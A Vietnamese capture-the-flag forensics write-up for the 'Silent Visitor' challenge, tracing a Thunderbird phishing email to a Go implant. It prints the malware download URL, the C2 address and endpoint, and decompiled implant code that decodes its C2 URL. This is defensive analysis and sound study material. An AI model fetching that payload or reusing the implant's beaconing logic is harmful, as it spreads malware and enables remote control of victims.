# For/Silent Visitor
## Description

A user reported suspicious activity on their Windows workstation. Can you investigate the incident and uncover what really happened?

https://drive.google.com/file/d/1-usPB2Jk1J59SzW5T_2y46sG4fb9EeBk/view?usp=sharing

`nc foren-1f49f8dc.p1.securinets.tn 1337`

> Author : Enigma522

## Solution

Đề bài cho ta 1 file AD1 và yêu cầu chúng ta trả lời câu hỏi để nhận flag. Mình load file vào `FTK Imager` để đọc.

> Q1 : What is the SHA256 hash of the disk image provided?

> ANS: 122b2b4bf1433341ba6e8fefd707379a98e6e9ca376340379ea42edb31a5dba2

Câu này cần load lên trang web nào để tính sha256 là được. Mình dùng công cụ có sẵn của Linux là `sha256sum` để tính luôn.

> Q2 : Identify the OS build number of the victim’s system?

> ANS: 19045

Câu này mình thường check `Registry` (không rõ có source khác không). Trích xuất `SOFTWARE hive` từ đường dẫn `Windows/System32/config/` và load vào `Registry Spy`. Đường dẫn đầy đủ để ta kiểm tra là : `SOFTWARE\Microsoft\Windows NT\CurrentVersion` (Tham khảo [tại đây](https://stackoverflow.com/questions/31072543/reliable-way-to-get-windows-version-from-registry)). 



> Q3 : What is the ip of the victim's machine?

> ANS: 192.168.206.131

Tương tự như Q2, check registry. Tham khảo [tại đây](https://superuser.com/questions/1338775/where-is-ip-address-of-my-ethernet-settings-stored-in-registry#:~:text=Gene%20-%20You%20can%20search%20the%20entire%20registry,in%20the%20IP%20address%20and%20press%20Find%20Next). 



> Q4 : What is the name of the email application used by the victim?

> ANS: Thunderbird

Check thư mục `Downloads` thấy nạn nhân tải xuống `Thunderbird`. 



> Q5 : What is the email of the victim?

> ANS: ammar55221133@gmail.com

Này mình có làm qua 1 bài trên `HackTheBox` nên không mất quá nhiều thời gian để mình xác định chỗ cần kiểm tra. Check file `All Mail` tại đường dẫn `\Users\ammar\AppData\Roaming\thunderbird\Profiles\6red5uxz.default-release\ImapMail\imap.gmail.com\[Gmail].sbd`, sẽ thấy ngay mail của nạn nhân.



> Q6 : What is the email of the attacker?

> ANS: masmoudim522@gmail.com

Từ file `All Mail` ở Q5, lướt xuống kiểm tra các email lạ. Chỉ thấy duy nhất 1 người gửi cho nạn nhân email và mấy cái linh tinh. 



> Q7 : What is the URL that the attacker used to deliver the malware to the victim?

> ANS: https://tmpfiles.org/dl/23860773/sys.exe

Vẫn từ file ở Q5, ta thấy kẻ tấn công gửi cho nạn nhân 1 đường dẫn `Github`. Mình submit thì nó sai. Thử truy cập vào đường dẫn đó. Check file `package.json` thì thấy 1 đoạn mã `base64` khá sú. 



Decode nó và mình thấy được đường dẫn của file thực thi. 



> Q8 : What is the SHA256 hash of the malware file?

> ANS: be4f01b3d537b17c5ba7dc1bb7cd4078251364398565a0ca1e96982cff820b6d

File này nằm ngay ở thư mục `Documents` nên chỉ cần dùng `sha256sum` là được.

> Q9 : What is the IP address of the C2 server that the malware communicates with?

> ANS: 40.113.161.85

Mình check file bằng `DIE` và biết được nó được viết bằng `Go`. Mình load nó vào `IDA` nhưng thấy phức tạp quá nên mình quyết định phân tích động bằng cách vứt vào `ANYRUN`. Ở phần `IOC`, mình tìm được IP mà mã độc sử dụng.



> Q10 : What port does the malware use to communicate with its Command & Control (C2) server?

> ANS: 5000

Mình vẫn sử dụng `ANYRUN` và check phần `ATT&CK`. Sẽ thấy như sau :



Xem phần C&C sẽ thấy port được sử dụng. 



Ngoài ra có thể chạy file thực thi trên máy ảo và sử dụng `ProcMon` cũng cho ta kết quả tương tự.

> Q11 : What is the url if the first Request made by the malware to the c2 server?

> ANS: http://40.113.161.85:5000/helppppiscofebabe23

Đến câu này thì bắt buộc phải nghiên cứu file thực thi. Mình vẫn load vào `IDA`. Dưới đây là đoạn mã giả của hàm `Main`:

<details>
    <summary>Click</summary>

```pseudocode
// main.main
void __fastcall main_main()
{
  __int64 v0; // rcx
  retval_66D3A0 Mutex; // kr110_16
  __int64 v2; // rax
  __int64 r1; // rbx
  _BYTE *v4; // rdx
  unsigned __int64 v5; // rsi
  signed __int64 i; // rcx
  char v7; // al
  signed __int64 v8; // rdi
  bool v9; // cf
  retval_456D40 v10; // kr130_16
  retval_456920 v11; // kr140_16
  retval_66F0A0 id; // kr270_16
  main_plant *p_main_plant; // rax
  char *v14; // rdx
  char *v15; // rsi
  char *v16; // rdi
  void *v17; // r8
  __int64 v18; // rax
  __int64 v19; // rbx
  __int64 v20; // rdi
  __int64 j; // rcx
  __int64 v22; // rsi
  bool v23; // cf
  retval_456D40 v24; // kr290_16
  _QWORD *v25; // rax
  __int64 v26; // rdx
  _QWORD *v27; // rax
  __int64 v28; // rdx
  __int64 v29; // rax
  __int64 v30; // rbx
  __int64 v31; // rdi
  __int64 k; // rcx
  __int64 v33; // rsi
  bool v34; // cf
  retval_456D40 v35; // kr2B0_16
  _QWORD *v36; // rax
  __int64 v37; // rdx
  __int64 v38; // rax
  __int64 v39; // rbx
  __int64 v40; // rdi
  __int64 m; // rcx
  __int64 v42; // rsi
  bool v43; // cf
  retval_456D40 v44; // kr2D0_16
  _QWORD *v45; // rax
  char v46[32]; // [rsp+0h] [rbp-112h] BYREF
  char v47; // [rsp+20h] [rbp-F2h]
  char v48; // [rsp+21h] [rbp-F1h]
  size_t v49; // [rsp+22h] [rbp-F0h]
  unsigned __int64 v50; // [rsp+2Ah] [rbp-E8h]
  size_t v51; // [rsp+32h] [rbp-E0h]
  __int64 r0; // [rsp+3Ah] [rbp-D8h]
  unsigned __int64 v53; // [rsp+42h] [rbp-D0h]
  unsigned __int64 v54; // [rsp+4Ah] [rbp-C8h]
  unsigned __int64 v55; // [rsp+52h] [rbp-C0h]
  unsigned __int64 v56; // [rsp+5Ah] [rbp-B8h]
  size_t v57; // [rsp+62h] [rbp-B0h]
  _QWORD v58[2]; // [rsp+6Ah] [rbp-A8h] BYREF
  _QWORD v59[2]; // [rsp+7Ah] [rbp-98h] BYREF
  __int128 v60; // [rsp+8Ah] [rbp-88h] BYREF
  _ptr_main_plant v61; // [rsp+9Ah] [rbp-78h]
  char *v62; // [rsp+A2h] [rbp-70h]
  _BYTE *v63; // [rsp+AAh] [rbp-68h]
  char *v64; // [rsp+B2h] [rbp-60h]
  char *v65; // [rsp+BAh] [rbp-58h]
  _QWORD v66[2]; // [rsp+C2h] [rbp-50h] BYREF
  __int128 v67; // [rsp+D2h] [rbp-40h]
  _QWORD v68[2]; // [rsp+E2h] [rbp-30h] BYREF
  __int64 v69; // [rsp+F2h] [rbp-20h]
  __int64 v70; // [rsp+FAh] [rbp-18h]
  __int128 v71; // [rsp+102h] [rbp-10h]
  retval_4767E0 v72; // 0:kr00_24.24
  retval_4767E0 v73; // 0:kr28_24.24
  retval_4767E0 v74; // 0:kr88_24.24
  retval_4767E0 v75; // 0:krA0_24.24
  retval_476420 v76; // 0:kr40_72.72
  retval_476420 v77; // 0:krC8_72.72
  retval_476420 v78; // 0:kr150_72.72
  retval_476420 v79; // 0:kr1D8_72.72
  retval_476480 v80; // 0:kr220_72.72

  v71 = 0;
  v48 = 0;
  v68[0] = &RTYPE_string;
  v68[1] = &off_7DB1F0;
  fmt_Fprintln(off_7DD3E0, qword_A09BF0, v68, 1, 1);
  Mutex = BFimplant_mymutex_CreateMutex(&aGlobalBfimplan, 21);
  if ( Mutex._r1 )
  {
    v67 = 0;
    v66[0] = &RTYPE_string;
    v66[1] = &off_7DB200;
    *(_QWORD *)&v67 = *(_QWORD *)(Mutex._r1 + 8LL);
    *((_QWORD *)&v67 + 1) = v0;
    fmt_Fprintln(off_7DD3E0, qword_A09BF0, v66, 2, 2);
  }
  else
  {
    r0 = Mutex._r0;
    v59[0] = main_main_deferwrap1;
    v59[1] = Mutex._r0;
    *(_QWORD *)&v71 = v59;
    v48 = 1;
    v60 = Mutex._r0;
    if ( (unsigned int)syscall_SyscallN(qword_A51A38, &v60, 2, 2) )
    {
      v7 = 1;
    }
    else
    {
      v50 = qword_9F3B18;
      v63 = off_9F3B10;
      v2 = runtime_makeslice(&RTYPE_uint8, qword_9F3B18);
      v70 = v2;
      v4 = v63;
      v5 = v50;
      for ( i = 0; i < (__int64)v5; i = v8 )
      {
        if ( (unsigned __int8)v4[i] >= 0x80u )
        {
          v56 = i;
          r1 = runtime_decoderune(v4, v5)._r1;
          v9 = v56 < v50;
          i = v56;
          v4 = v63;
          v5 = v50;
          v8 = r1;
          v2 = v70;
        }
        else
        {
          v8 = i + 1;
          v9 = i < v5;
        }
        if ( !v9 )
        {
LABEL_56:
          v75 = runtime_panicIndex(i, r1, v5, v8, v5);
          runtime_deferreturn(v75._r0, v75._r1, v75._r2);
          return;
        }
        *(_BYTE *)(v2 + i) = v4[i] ^ 0x45;
      }
      v10 = runtime_slicebytetostring(v46, v2, v5);
      v11 = runtime_concatstring4(0, &aHttp_1, 7, v10._r0, v10._r1, &unk_7D9998, 1, &a5000, 4);
      v57 = v11._r1;
      v65 = (char *)v11._r0;
      v58[0] = main_main_deferwrap2;
      v58[1] = r0;
      *((_QWORD *)&v71 + 1) = v58;
      v48 = 3;
      v62 = (char *)off_9F3B00;
      v49 = qword_9F3B08;
      id = main_Get_id();
      v64 = (char *)id._r0;
      v51 = id._r1;
      v69 = runtime_makemap_small();
      p_main_plant = (main_plant *)runtime_newobject(&RTYPE_main_plant);
      p_main_plant->C2ServerURL.len = v57;
      if ( dword_A51D00 )
      {
        v80 = runtime_gcWriteBarrier4();
        p_main_plant = (main_plant *)v80._r0;
        v14 = v65;
        *(_QWORD *)v80._r8 = v65;
        v15 = v62;
        *(_QWORD *)(v80._r8 + 8LL) = v62;
        v16 = v64;
        *(_QWORD *)(v80._r8 + 16LL) = v64;
        v17 = (void *)v69;
        *(_QWORD *)(v80._r8 + 24LL) = v69;
      }
      else
      {
        v14 = v65;
        v15 = v62;
        v16 = v64;
        v17 = (void *)v69;
      }
      v61 = p_main_plant;
      p_main_plant->C2ServerURL.ptr = v14;
      p_main_plant->Secret.len = v49;
      p_main_plant->Secret.ptr = v15;
      p_main_plant->plantID.len = v51;
      p_main_plant->plantID.ptr = v16;
      p_main_plant->Modules = v17;
      v18 = runtime_makeslice(&RTYPE_uint8, 3);
      v70 = v18;
      for ( j = 0; j < 3; j = v22 )
      {
        if ( asc_75F6EB[j] >= 0x80u )
        {
          v55 = j;
          v19 = runtime_decoderune(asc_75F6EB, 3)._r1;
          v23 = v55 < 3;
          j = v55;
          v22 = v19;
          v18 = v70;
        }
        else
        {
          v22 = j + 1;
          v23 = (unsigned __int64)j < 3;
        }
        if ( !v23 )
        {
LABEL_55:
          v74 = runtime_panicIndex(j, v19, 3, v20, v22);
          r1 = v74._r1;
          i = v74._r2;
          goto LABEL_56;
        }
        v20 = asc_75F6EB[j] ^ 0x45u;
        *(_BYTE *)(v18 + j) = asc_75F6EB[j] ^ 0x45;
      }
      v24 = runtime_slicebytetostring(0, v18, 3);
      v25 = (_QWORD *)runtime_mapassign_faststr(&RTYPE_map_string_modules_Module, v61->Modules, v24._r0, v24._r1);
      *v25 = off_7DE9C8;
      if ( dword_A51D00 )
      {
        v76 = runtime_gcWriteBarrier1(v25);
        v25 = (_QWORD *)v76._r0;
        *(_QWORD *)v76._r8 = v26;
      }
      v25[1] = &stru_A516C0;
      v27 = (_QWORD *)runtime_mapassign_faststr(&RTYPE_map_string_modules_Module, v61->Modules, &aPing_0, 4);
      *v27 = off_7DE9F0;
      if ( dword_A51D00 )
      {
        v77 = runtime_gcWriteBarrier1(v27);
        v27 = (_QWORD *)v77._r0;
        *(_QWORD *)v77._r8 = v28;
      }
      v27[1] = &stru_A516C0;
      v29 = runtime_makeslice(&RTYPE_uint8, 10);
      v70 = v29;
      for ( k = 0; k < 10; k = v33 )
      {
        if ( a6761[k] >= 0x80u )
        {
          v54 = k;
          v30 = runtime_decoderune(a6761, 10)._r1;
          v34 = v54 < 0xA;
          k = v54;
          v33 = v30;
          v29 = v70;
        }
        else
        {
          v33 = k + 1;
          v34 = (unsigned __int64)k < 0xA;
        }
        if ( !v34 )
        {
LABEL_54:
          v73 = runtime_panicIndex(k, v30, 10, v31, v33);
          v19 = v73._r1;
          j = v73._r2;
          goto LABEL_55;
        }
        v31 = a6761[k] ^ 0x45u;
        *(_BYTE *)(v29 + k) = a6761[k] ^ 0x45;
      }
      v35 = runtime_slicebytetostring(0, v29, 10);
      v36 = (_QWORD *)runtime_mapassign_faststr(&RTYPE_map_string_modules_Module, v61->Modules, v35._r0, v35._r1);
      *v36 = off_7DEA18;
      if ( dword_A51D00 )
      {
        v78 = runtime_gcWriteBarrier1(v36);
        v36 = (_QWORD *)v78._r0;
        *(_QWORD *)v78._r8 = v37;
      }
      v36[1] = &stru_A516C0;
      v38 = runtime_makeslice(&RTYPE_uint8, 6);
      v70 = v38;
      for ( m = 0; m < 6; m = v42 )
      {
        if ( a05_1[m] >= 0x80u )
        {
          v53 = m;
          v39 = runtime_decoderune(a05_1, 6)._r1;
          v43 = v53 < 6;
          m = v53;
          v42 = v39;
          v38 = v70;
        }
        else
        {
          v42 = m + 1;
          v43 = (unsigned __int64)m < 6;
        }
        if ( !v43 )
        {
          v72 = runtime_panicIndex(m, v39, 6, v40, v42);
          v30 = v72._r1;
          k = v72._r2;
          goto LABEL_54;
        }
        v40 = a05_1[m] ^ 0x45u;
        *(_BYTE *)(v38 + m) = a05_1[m] ^ 0x45;
      }
      v44 = runtime_slicebytetostring(0, v38, 6);
      v45 = (_QWORD *)runtime_mapassign_faststr(&RTYPE_map_string_modules_Module, v61->Modules, v44._r0, v44._r1);
      *v45 = off_7DEA40;
      if ( dword_A51D00 )
      {
        v79 = runtime_gcWriteBarrier1(v45);
        v45 = (_QWORD *)v79._r0;
        *(_QWORD *)v79._r8 = v79._r2;
      }
      v45[1] = &stru_A516C0;
      main__ptr_plant_Start(v61);
      v7 = 3;
    }
    if ( (v7 & 2) != 0 )
    {
      v47 = v7 & 0xFD;
      v48 = v7 & 0xFD;
      (**((void (***)(void))&v71 + 1))();
      v7 = v47;
    }
    if ( (v7 & 1) != 0 )
    {
      v48 = v7 & 0xFE;
      (*(void (**)(void))v71)();
    }
  }
}
```
</details>

Đầu tiên nó tạo một `mutex` để tránh chạy trùng lặp. 



Nếu thành công, nó sẽ bắt đầu giải mã chuỗi từ `off_093B10` để tạo thành C2 URL. Cụ thể là `http://<IP>:5000//` : 



Tiếp theo, thiết lập cấu hình `main_plant` :



Vân vân mây mây chức năng khác, trong đó một số hàm chỉ là hàm rác. Cuối cùng quan trọng nhất là nó gọi hàm `Start()`. Chú ý vào phần đầu của hàm này :



Nó sẽ thực hiện gửi một HTTP GET tới endpoint `/helppppiscofebabe23`. Nếu lỗi, nó ghi log lại và chờ 120s, sau đó lại tiếp tục thực hiện gọi lại `Start()`. Đến đây ta có thể xác định được url được tạo thành từ `C2 URL + endpoint`.

> Q12 : The malware created a file to identify itself. What is the content of that file?

> ANS: 3649ba90-266f-48e1-960c-b908e1f28aef

Câu này làm mình mất nhiều thời gian nhất. Mình check lần lượt từng hàm và chú ý vào hàm `Get_Id`. Code khá dài nên mình chỉ lấy đoạn quan trọng : 

```pseudocde
v0 = runtime_makeslice(&RTYPE_uint8, 6, 6);
  v68 = v0;
  for ( i = 0; i < 6; i = v3 )
  {
    if ( (unsigned __int8)aK11[i] >= 0x80u )
    {
      v58 = i;
      r1 = runtime_decoderune(",!k1=1", 6)._r1;
      v9 = v58 < 6;
      i = v58;
      v3 = r1;
      v0 = v68;
    }
    else
    {
      v3 = i + 1;
      v9 = (unsigned __int64)i < 6;
    }
    if ( !v9 )
      goto LABEL_26;
    v2 = (unsigned __int8)aK11[i] ^ 0x45;
    *(_BYTE *)(v0 + i) = aK11[i] ^ 0x45;
  }
  v10 = runtime_slicebytetostring((unsigned int)&v52, v0, 6, v2, v3, v4, v5, v6, v7);
  v11 = runtime_concatstring2(v51, "C:\\Users\\Public\\Documents\\", 26, v10._r0, v10._r1);
  v12 = syscall_StringToUTF16Ptr(v11);
  File = BFimplant_winapiV2_CreateFile(v12, 3221225472LL, 0, 0, 4, 128, 0);
```

Về cơ bản thì code này tạo 1 file có tên id.txt ở đường dẫn `C:\Users\Public\Documents\`. Đoạn này mình cực đơ. Nó ghi rõ ràng là ở Public mà mình cứ tìm ở `Users\ammar`. Còn định dùng cả `MFT`, mà bài này không có nên mình tưởng mình điên luôn rồi. Sau đọc kỹ lại thì mới ra. 

